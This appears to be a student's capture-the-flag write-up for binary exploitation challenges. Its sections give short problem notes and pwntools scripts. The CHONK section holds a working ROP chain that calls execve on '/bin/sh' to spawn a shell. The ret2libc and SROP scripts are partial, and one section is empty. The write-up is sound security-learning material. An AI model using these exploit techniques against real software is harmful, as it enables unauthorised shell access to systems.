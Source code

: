 CHONK
===========================

General overview of problems faced
-------------------------------------
Had trouble clearing out rdx and also took a very very long time to locate a gadget that could move rax into rdi register because `ropr` is useless :(

Script/Command used
------------------
```python

POP_RAX = p64(0x004213eb)
POP_RDI = p64(0x0047e852)
POP_RSI = p64(0x0047d04b)
JUNK = p64(0x0)
SYSCALL = p64(0x0040b9f6) # syscall; ret;
MOV_RDI_RAX = p64(0x00404bd6) # mov rdi, rax; cmp rdx, rcx; jae 0x4bc0; mov rax, rsi; ret; 

def exploit():
    offset = 8 # found using cyclic
    rop_chain = b"/bin/sh\x00"            # "/bin/sh" string in rax
    rop_chain += b"A" * offset
    rop_chain += POP_RSI                  # pop rsi; ret;
    rop_chain += JUNK                     # Address with 0 value in memory
    rop_chain += MOV_RDI_RAX
    rop_chain += POP_RAX                  # pop rax; ret;
    rop_chain += p64(0x3b)                # rax = 0x3b (execve syscall)
    rop_chain += SYSCALL

    P.sendlineafter(b"most...\n", rop_chain)

    P.interactive()

```

RET2LIBC
===========================

General overview of problems faced
-------------------------------------
Had to work out which version of libc was being used on the remote server and construct payload using offset but ran out of time.

Script/Command used
------------------
```python
def exploit():
    P.recvuntil(b'- ',drop=True)
    setbuf_leak = P.recvline()
    setbuf_leak = setbuf_leak[:-3]
    setbuf_leak = int(setbuf_leak, 16)
    log.info(f"setbuf is at: {hex(setbuf_leak)}")
    P.recvline()

    setbuf_offset = LIBC.symbols["setbuf"]
    LIBC.address = setbuf_leak - setbuf_offset
    log.info(f"base libc address: {hex(LIBC.address)}")
    libc_system = LIBC.symbols["system"]
    libc_binsh = next(LIBC.search(b'/bin/sh\00'))
    return_addr_junk = p64(0)

    payload = b""
    
    P.sendline(payload)
    P.interactive()

```

SWROP
===========================

General overview of problems faced
-------------------------------------
Brief attempt at solving this problem but again, ran out of time to complete.

Script/Command used
------------------
```python
def exploit():
    system_target = E.symbols["system"]
    binsh_target = next(E.search(b"/bin/sh\00"))
    offset = cyclic_find(0x6261616b6261616a)
    payload = fit({
        offset: system_target,
        offset + 8: p64(0),
        offset + 16: p64(binsh_target)
    })
    P.sendline(payload)
    P.interactive()
```

ROPORSHELLCODE
===========================

General overview of problems faced
-------------------------------------
Ran out of time to complete.


